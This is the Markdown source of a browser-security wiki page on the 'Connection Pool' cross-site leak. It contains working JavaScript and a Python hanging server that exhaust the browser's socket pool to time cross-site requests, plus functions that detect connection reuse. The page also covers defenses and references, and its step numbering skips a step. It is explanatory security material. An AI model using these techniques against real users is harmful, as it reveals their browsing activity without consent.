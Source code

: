 +++
title = "Connection Pool"
description = ""
date = "2020-10-01"
category = "Attack"
abuse = [
    "Connection Pool",
    "Browser Limits",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
]
menu = "main"
+++

Another way to measure the network timing of a request consists of abusing the socket pool of a browser [^1]. Browsers use sockets to communicate with servers. As the operating system and the hardware it runs on have limited resources, browsers have to impose a limit.

To exploit the existence of this limit, attackers can:
1. Check what the limit of the browser is, for example 256 global sockets for TCP and 6000 global sockets for UDP. [^2][^7]
2. Block {{< katex>}}255{{< /katex >}} sockets for a long period of time by performing {{< katex>}}255{{< /katex >}} requests to different hosts that simply hang the connection
```javascript
// Client
for(let i=0; i<255; i++) fetch('https://'+i+'.example.com/', {mode: "no-cors", cache: "no-store"});
```
```python
# Server
from http.server import BaseHTTPRequestHandler, HTTPServer
import time

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        time.sleep(float(100000))
        self.send_response(200)
        self.send_header('Cache-Control', 'no-store')
        self.end_headers()

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```
4. Use the {{< katex>}}256^{th}{{< /katex >}} socket by performing a request to the target page.
5. Perform a {{< katex>}}257^{th}{{< /katex >}} request to another host. Since all the sockets are being used (in steps 2 and 3), this request must wait until the pool receives an available socket. This waiting period provides the attacker with the network timing of the {{< katex>}}256^{th}{{< /katex >}} socket, which belongs to the target page. This works because the {{< katex>}}255{{< /katex >}} sockets in step 2 are still blocked, so if the pool received an available socket, it was caused by the release of the socket in step 3. The time to release the {{< katex>}}256^{th}{{< /katex >}} socket is directly connected with the time taken to complete the request.
```javascript
performance.clearResourceTimings();
await fetch(location.href, {cache: "no-store"});
await new Promise(r => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = (data.connectStart === data.startTime) ? 'reused' : 'new';
console.log('Time spent: ' + data.duration + ' on ' + type + ' connection.');
```

## Connection reuse
With HTTP/1.1 (TCP) and HTTP/2 (TCP) and HTTP/3 (UDP) requests may reuse an existing connection for a host to improve performance. [^3][^4]
Since a reused connection is normally faster this could allow for detecting if a site has connected to a host excluding anything that’s been cached and leaking information about the cross-site request by abusing Stream prioritization and HPACK compression. [^5]
Connections may get closed if they are left idle or the sockets are exhausted, for example 256 connections for HTTP/2 or 30 seconds idle for HTTP/3. [^2][^6]
This may also leak when the connection happened and the browser can have per connection limits and on how many connections are allowed per host, for example 6 connections per host. [^2]
```javascript
// Detect if a HTTP/3 request was made to a certain host in the last 20 seconds.
await new Promise(r => setTimeout(r, 10000));

// Check for connection reuse for when there’s a Timing-Allow-Origin header.
async function isConnected(url) {
    performance.clearResourceTimings();
    try {
        await fetch(url, {
            cache: "no-store",
            credentials: "include"
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    // Allowed to read timing information.
    // Same-origin or the Timing-Allow-Origin header.
    console.log("Protocol: " + data.nextHopProtocol);
    return (data.connectStart === data.startTime);
}

// Check for connection reuse for when there’s no Timing-Allow-Origin header. (less reliable)
async function isConnected2(url, max = 50) {
    let start = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "GET",
            mode: "no-cors",
            credentials: "include"
        });
    } catch {}
    let duration = performance.now() - start;
    
    let start2 = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "GET",
            mode: "no-cors",
            credentials: "include"
        });
    } catch {}
    let duration2 = performance.now() - start2;
    return (duration - duration2 < max);
}

await isConnected2('https://example.com/404');
```

## Skipping dependences
If all connections for a host are exhausted that code may not get loaded resulting in diffrent behaviour.

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) | [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}}) |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-------------------------------------------------------------------: |
|                                         ❌                                          |                          ❌                          |                                 ❌                                 |                                   ❌                                   |


{{< hint info >}}
Similar to [partitioned caches]({{< ref "../../defenses/secure-defaults/partitioned-cache.md" >}}), some browsers are considering to extend the principle of "split per site/origin" of resources to [socket pools](https://bugzilla.mozilla.org/show_bug.cgi?id=1572544).
{{< /hint >}}

## References

[^1]: Leak cross-window request timing by exhausting connection pool, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=843157)
[^2]: client_socket_pool_manager.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool_manager.cc)
[^3]: rfc9113 Connection Reuse, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.9.1.1)
[^4]: rfc9114 Connection Reuse, [link](https://httpwg.org/specs/rfc9114.html#rfc.section.3.3)
[^5]: rfc9113 Remote Timing Attacks, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.10.9)
[^6]: quic_context.h, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/quic/quic_context.h)
[^7]: features.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/base/features.cc)

